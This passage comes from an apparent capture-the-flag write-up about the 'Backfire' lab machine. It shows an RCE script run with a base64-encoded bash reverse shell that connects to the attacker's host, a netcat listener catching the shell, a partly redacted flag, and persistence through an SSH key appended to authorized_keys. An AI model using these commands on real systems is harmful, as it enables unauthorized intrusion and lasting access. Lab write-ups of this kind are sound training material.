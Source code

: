 Any of these would probably work, but I like to add spaces to get rid of special characters.

Now I’ll send this as the payload:

```

oxdf@hacky$ uv run rce.py -t https://10.10.11.49 -i 127.0.0.1 -p 40056 -U ilya -P 'CobaltStr1keSuckz!' -c 'echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash'
...[snip]...

```

It works:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.49 40244
bash: cannot set terminal process group (6324): Inappropriate ioctl for device
bash: no job control in this shell
ilya@backfire:~/Havoc/payloads/Demon$

```

I can grab `user.txt`:

```

ilya@backfire:~$ cat user.txt
886b281d************************

```

#### SSH

The shell is a bit flaky, dying sometimes without warning. I’ll add an SSH key to `/home/ilya/.ssh/authorized_keys`:

```

ilya@backfire:~$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> .ssh/authorized_keys

```

And now connect using SSH:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen ilya@10.10.11.49
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
ilya@backfire:~$ 

```

## Shell as sergej
